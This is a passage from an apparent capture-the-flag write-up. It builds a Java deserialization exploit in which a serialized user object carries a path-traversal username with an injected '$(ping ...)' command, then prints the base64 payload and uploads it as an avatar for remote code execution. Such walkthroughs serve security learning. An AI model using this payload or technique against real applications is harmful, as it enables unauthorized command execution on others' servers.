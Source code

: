         protected int id;
    
        protected String username;
    
        protected String password;
    
        protected String fingerprint;
    

I’ll create a user, not worrying about the `password` or `fingerprint`, and
then base64 encode it and print it:

    
    
    package com.admin.security.src;
    
    import com.admin.security.src.model.User;
    import com.admin.security.src.model.Profile;
    import com.admin.security.src.profile.UserProfileStorage;
    import com.admin.security.src.utils.SerUtils;
    import com.admin.security.src.utils.FileUtil;
    import java.util.ArrayList;
    import java.util.Base64;
    import java.io.File;
    import java.io.IOException;
    
    public class App {
        public static void main( String[] args ) throws IOException {
            Profile profile = new Profile(new ArrayList<>(), true);
            FileUtil.write(SerUtils.toByteArray(profile), new File("./0xdf.ser"));
    
            User user = new User(223, "../../../../$(ping -c 1 10.10.14.6)/../../../data/uploads/0xdf", "", "");
            UserProfileStorage ups = new UserProfileStorage(user);
            System.out.println(Base64.getEncoder().encodeToString(SerUtils.toByteArray(ups)));
        }
    }
    

I’ll package it, and then run:

    
    
    oxdf@hacky$ java -jar target/exploit-1.0-SNAPSHOT.jar 
    rO0ABXNyADFjb20uYWRtaW4uc2VjdXJpdHkuc3JjLnByb2ZpbGUuVXNlclByb2ZpbGVTdG9yYWdlsVf4McAfoVsCAAFMAAR1c2VydAAjTGNvbS9hZG1pbi9zZWN1cml0eS9zcmMvbW9kZWwvVXNlcjt4cHNyACFjb20uYWRtaW4uc2VjdXJpdHkuc3JjLm1vZGVsLlVzZXKUBNdz41+5awIABEkAAmlkTAALZmluZ2VycHJpbnR0ABJMamF2YS9sYW5nL1N0cmluZztMAAhwYXNzd29yZHEAfgAETAAIdXNlcm5hbWVxAH4ABHhwAAAA33QAAHEAfgAGdAA+Li4vLi4vLi4vLi4vJChwaW5nIC1jIDEgMTAuMTAuMTQuNikvLi4vLi4vLi4vZGF0YS91cGxvYWRzLzB4ZGY=
    

### Execution

#### RCE POC

I’ll upload `0xdf.ser` on the avatar page. It returns in the background:

    
    
    Successfully uploaded to /data/uploads/0xdf.ser
    